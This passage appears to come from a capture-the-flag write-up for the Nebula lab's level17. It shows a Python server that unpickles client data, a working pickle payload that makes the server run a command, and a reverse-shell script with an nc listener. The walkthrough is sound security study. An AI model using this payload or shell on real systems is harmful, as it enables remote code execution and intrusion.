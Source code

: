 		print 'Got line: "{}"'.format(line)

		obj = pickle.loads(line)

		for i in obj:
			clnt.send("why did you send me " + i + "?\n")

	skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
	skt.bind(('0.0.0.0', 10007))
	skt.listen(10)

	while True:
		clnt, addr = skt.accept()

		if(os.fork() == 0):
			clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
			server(clnt)
			exit(1)


The above program spawns a server and loads pickled data from the client data. This is unsecure, because
we can craft a pickled string that executes commands.

You can obtain the pickled string by executing the following code:

	:::python
	import os
	import pickle

	# Exploit that we want the target to unpickle
	class Exploit(object):
	    def __reduce__(self):
	        return (os.system, ('python /tmp/bd.py',))

	shellcode = pickle.dumps(Exploit())
	print shellcode

Then as always, create a connect back shell in `/tmp/bd.py` which might look like this (make it executable!):

	:::bash
	level17@nebula:/home/flag17$ cat /tmp/bd.py 
	#!/usr/bin/python
	import socket,subprocess,os

	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("localhost", 8888))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])


First open one terminal and enter the following command:

	:::bash
	level17@nebula:~$ nc -l localhost 8888
